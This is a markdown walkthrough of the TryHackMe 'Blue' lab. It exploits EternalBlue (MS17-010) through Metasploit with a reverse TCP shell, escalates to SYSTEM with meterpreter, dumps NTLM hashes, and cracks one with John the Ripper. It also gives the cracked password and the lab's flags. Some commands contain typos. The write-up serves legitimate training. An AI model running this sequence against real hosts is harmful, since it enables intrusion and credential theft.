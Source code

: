 ```yaml
---
Layout: page
Title: Blue
Permalink: /thm/blue
---
```

"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the SMB (Server Message Block) protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.
EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.
This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).
### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)
## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later). 
1. How many ports are open with a port number under 1000?
2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
We can answer these questions with just one nmap scan:
```
nmap --script vuln target IP
```
This will return  all open ports (9 in total, **3** under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or **ms17-010**). 
![ports](images/ports.png)
## Gain Access
To get through this section you'll need to install the [Metasploit framework](https://www.metasploit.com/). Then:
1. become root: `sudo su`
2. open up metasploit: `msfconsole`
3. set your local IP address to LHOST: `set LHOST` `tun0` and `LPORT` to a random port that is not already in use (e.g. `set LPPRT 4444`)
4. search metasploit's database for the EternalBlue exploit: `search ms17-010`
	- ![ms17-010](images/ms17-010.png)
5. use the exploit: `use`
6. show the options for the exploit: `show options`. You'll get "**RHOSTS**" as the first result
	- ![show options](images/options.png)
7. now set RHOSTS as the target machine's IP address: `set RHOSTS` target_ip
8. paste 
```
set payload windows/x64/shell/reverse_tcp
```
## Escalate
Background the session with Ctrl+z (then press `y` when prompted)
Let's now search the Metasploit database for info on how to convert a shell to a meterpreter shell:
`search shell_to_meterpreter`

![shell](images/shell.png)

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`
Use this post module with `use 0` and show its' options with `show options`

![session](images/session.png)

Since we have two sessions going on, we will have to change the `SESSION` option to 1 with `session -i 1`. To know to which session you have to switch, use the command `sessions -l`

![sessions](images/sessions.png)

Now run the exploit with `run`
Once we get the `[*] Stopping exploit/multi/handler` message, press `Ctrl+c` to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2](/images/session2.png)

![meterpreter](images/meterpreter.png)

The getsystem command will now return this:

![system](images/sytstem.png)

You can also list oll the processes with the ps command and you can migrate to one of these.

![ps](images/ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate` and the PID (e.g. `migrate 2868`).
## Cracking
Now use the hashdump command

![hashdump](images/hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with `echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
> This will return alqfna22 as the password.

![john](images/john.png)

## Find flags!

The first flag is located in the C:\ folder: 
> flag{access_the_machine}

The second flag is loceated in the C:/Windows/System32/config folder: 
> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:
> flag{admin_documents_can_be_valuable}

That' all, hope i helped.